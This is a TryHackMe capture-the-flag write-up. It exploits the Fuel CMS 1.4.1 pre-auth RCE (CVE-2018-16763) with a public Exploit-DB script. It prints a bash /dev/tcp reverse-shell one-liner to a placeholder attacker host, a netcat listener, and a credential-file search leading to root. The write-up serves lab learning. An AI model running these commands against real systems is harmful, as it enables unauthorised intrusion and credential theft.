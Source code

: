 # 📝 Writeup – Ignite (TryHackMe)

---

## TL;DR
Found Fuel CMS 1.4.1 on port 80 (vulnerable to CVE-2018-16763). Used the public Python exploit to achieve pre-auth Remote Code Execution, spawned a reverse shell, grabbed the user flag, found a DB/config with credentials, and used those to get root. Clean & quick. 😎

---

## ENUMERATION
Start with the usual:

```bash
nmap -p- --min-rate 2000 -vv -T4 <IP>
````

Narrow down to HTTP:

```bash
nmap -p80 -sC -sV -vv -oN scan.nmap <IP>
```

Screenshot:
![nmap](screenshots/nmap1.png)

Nmap (and manual browsing) revealed a Fuel CMS powered site. I ran `searchsploit` to check for known issues.

---

## FUEL CMS 1.4.1 — The Vulnerability (short & clear)

Fuel CMS 1.4.1 contains a **pre-auth PHP code evaluation** bug: certain endpoints accept user-supplied parameters (`pages/select` → `filter` and `preview` → `data`) which are not properly sanitized and can be abused to evaluate PHP code, leading to Remote Code Execution (RCE) without authentication. In practice, this means you can send crafted input to those endpoints and get the server to execute code you control.

Why that’s bad: if an app evaluates or includes user-controlled content (directly or via a bad filter/preview function), attackers can cause the server to run arbitrary PHP — which is how we get shells. Multiple public PoCs and exploit scripts exist for this specific vuln (Exploit-DB / GitHub repos).

---

## UNDERSTANDING THE EXPLOIT (how it actually works)

High-level mechanics (no heavy theory, just the practical gist):

1. The application exposes endpoints that accept text meant for preview or filtering. Those endpoints end up feeding that text into code paths that evaluate or include it without proper sanitization.
2. The exploit sends specially crafted payloads in the vulnerable parameter. The server treats that payload as code/data and ends up evaluating it (or including a chain that evaluates it).
3. Once PHP code runs on the server, we can run `system()`/`exec()`/backdoors — e.g. trigger a reverse shell or write a webshell.

So the exploit is a **pre-auth code evaluation**: send payload → server runs it → attacker gets RCE. For this box we used a public Python exploit that automates the payload and returns command output.

---

## EXPLOITATION (what I ran)

I used the public exploit script (from Exploit-DB). Example invocation I ran:

```bash
# use searchsploit to find known exploits
searchsploit Fuel CMS

# run the exploit (target is the site URL)
python3 /usr/share/exploitdb/exploits/php/webapps/50477.py -u http://<IP>
```
Screenshot of searchsploit:      
![Searchsploit](screenshots/searchsploit.png)     
Screenshot of exploit output:
![RCE](screenshots/rce.png)

The script lets you execute commands remotely — so I ran a reverse-shell command from the exploit output:

```bash
# on attacker machine: listener
nc -nvlp <PORT>

# from exploit (execute this command on target)
bash -c "bash -i >& /dev/tcp/<ATTACK_IP>/<PORT> 0>&1"
```

Listener popped a shell and we were `www-data` . From there I grabbed the user flag.      
Screenshot:      
![user\_flag](screenshots/user_flag.png)

---

## Post-exploitation → root

I didn’t find any usable SUID binaries nor any obvious sudo misconfig for the user. So I searched for database/config files that sometimes contain credentials:

```bash
find / -name "*database*" 2>/dev/null
```     
![database](screenshots/find_database.png)
![root_pass](screenshots/root_pass.png)      
Found a config/database file with credentials that included a password. Using those creds I was able to directly `su` into root . Example flow I did:

1. Get a proper tty (so `su` works cleanly):

```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
```

2. `su` into root using the found password. Final root screenshot:
   ![root\_flag](screenshots/root_flag.png)

---

## Notes, gotchas & tips

* Fuel CMS CVE-2018-16763 is well-documented; there are multiple PoCs. If one exploit fails, try another fork or tweak payload encoding.
* If the exploit seems to execute but you don’t get a shell, try a simple command like `id` or `whoami` via the exploit to confirm command execution before attempting a reverse shell.
* Some exploit scripts expect HTTP vs. HTTPS or different paths — double-check base URL and ensure trailing slashes match the script’s expectations.
* If reverse shell fails because outbound connection blocked, try writing a webshell and interacting via HTTP or write a cron job.

---

## References

* NVD / CVE-2018-16763 description (PHP code evaluation via `pages/select` filter or `preview` data).

---

## Final words

Fuel CMS 1.4.1 RCE is a classic pre-auth code evaluation — nasty and loud if the server uses those preview/include paths. This box was an easy one once you find the right exploit. Repo has screenshots of the exploit run, user flag, and root confirmation.


